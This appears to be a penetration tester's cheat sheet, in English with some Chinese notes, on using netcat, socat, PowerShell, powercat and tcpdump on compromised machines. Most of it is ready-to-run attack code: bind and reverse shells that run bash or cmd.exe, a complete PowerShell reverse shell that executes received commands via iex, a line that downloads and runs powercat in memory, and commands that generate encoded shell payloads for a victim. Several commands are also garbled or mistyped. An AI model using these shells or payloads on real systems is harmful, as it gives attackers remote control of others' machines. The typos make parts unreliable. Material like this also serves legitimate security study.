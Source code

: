 # Practical Tools

一些渗透场景中, 目标环境中一般已有的工具

## Netcat

utility which reads and writes data across network connections, using TCP or UDP protocols

### Connecting to a TCP/UDP Port

- `n` skip dns name resolution
- `v` add some verbosity

```bash
nc -nv ip port
```

### Listening on a TCP/UDP Port

- `n` diable dns name resolution
- `l` create a listener
- `p` specify the listening port number
- `v` add some verbosity
- `e` specify filename to exec after connect
- `c` specify shell commands to exec after connect
- `k` forces nc to stay listening for another connection after its current connection is completed

```bash
nc -nlvp port
```

### Transferring Files with Netcat

1. use redirection

```bash
# receive
nc -nlvp port > file

# send
nc -nv ip port < file
```

### Remote Administration with Netcat

1. bind shell

```bash
# victim
nc -nlvp port -e bash

# attacker
nc -nv ip port
```

2. reverse shell

```bash
# attacker
nc -nlvp export 

# victim
nc -nv ip port -e bash

```

## Socat

1. netcat & socat

```bash
# listen on 80
nc -lvp localhost 443
socat TCP4-LISTEN:443 STDOUT

# connect to  remote_ip:80
nc remote_ip 80
socat - TCP4:remote_ip:80
```

2. Socat File Transfers

```bash
# sender
socat TCP4-LISTEN:443,fork file:xxxxx

# receiver
socat - TCP4:remote_ip:80 file:xxxxx,create
```

3. Socat Reverse Shells

```bash
# reverse shell
## attacker
## victim
socat TCP4:attacker_ip:port EXEC:/bin/bash

# bind shell
## victim
socat -d -d TCP4-LISTEN:prot STDOUT EXEC:/bin/bash
## attacker
socat - TCP4:attacker_ip:port STDOUT
```

4. Socat with openssl

```bash
# generate a key
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

# combine .key and .crt into a .pem
cat xxxx.key xxx.crt > xxx.pem

# listen
socat OPENSSL-LISTEN:port,cert=xxx.pem,verify=0

# connect
socat - OPENSSL:ip:port,verify=0
```

## Powershell

[Powershell Documentation](https://docs.microsoft.com/en-us/powershell/)

1. change execution policy

```powershell
Set-ExecutionPolicy Unrestricted

socat -d -d TCP4-LISTEN:port STDOUT
# check
Get-ExecutionPolicy
```

2. Powershell File Transfers

```bash
# download file
powershell -c "(new-object System.Net.WebClient).DownloadFile($sourceFile, $destinationFile)"

# download text file as string

(New-Object System.Net.Webclient).DownloadString($url)

# destinationFile 需要执行的shell有写权限, 不然会报: 对路径“$destinationFIle”的访问被拒绝 或 InvalidOperation: (:) []，RuntimeException
```

3. Powershell Reverse Shells

***attacker***

```bash
nc -lvpn 443
```

***victim***
流量未加密, 可直接检测

```powershell
$client = New-Object System.Net.Sockets.TCPClient(ip,443);  # crate a tcp connect
$stream = $client.GetStream(); 
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '>';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}

$client.Close();
$listener.Stop();
```

## [Powercat](https://github.com/besimorhino/powercat)

1. Powercat File transfers

```bash
# receiver

nc -lnvp 443 > recveiving_file_name
```

```powershell
# sender
# load powercat to memory
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

# also load by
. .\powercat.ps1

# sending
powercat -c ip -p port -i file_to_send
```

2. Powercat Reverse Shells

```powershell
powercat -c ip -p port -e cmd.exe
```

3. Powercat Bind Shells

```powershell
powercat -l -p 443 -e cmd.exe2
```

4. Powercat Stand-Alone Payloads

```powershell
# generate payload
powercat -c ip -p port -e cmd.exe(.etc) -g > payload.ps1

# run the payload on victim 
./payload.ps1

# generate encoded payload
powercat -c ip -p port -e cmd.exe(.etc) -ge > payload.ps1

# run encoded paylaod
powershell.exe -E payload
```

## tcpdump

- `r` read packet from file
- `n` do not convert address (i.e., host address, port numbers, etc.) to names
- `X` print packet data in both HEX and ASCII format
- `A` print each packet in ASCII, Handy for capturing web pages

1. Header Filtering

```bash
tcpdump -A -n 'tcp[13] = 24'

# with tcpflags
tcpdump 'tcp[tcpflags] == tcp-syn'

```

tips:

***使用 `-r` 读取文件时, 若不需要解析ip/端口, 则最好添加 `-n` 参数, 不然会很慢, 伴随大量dns请求***
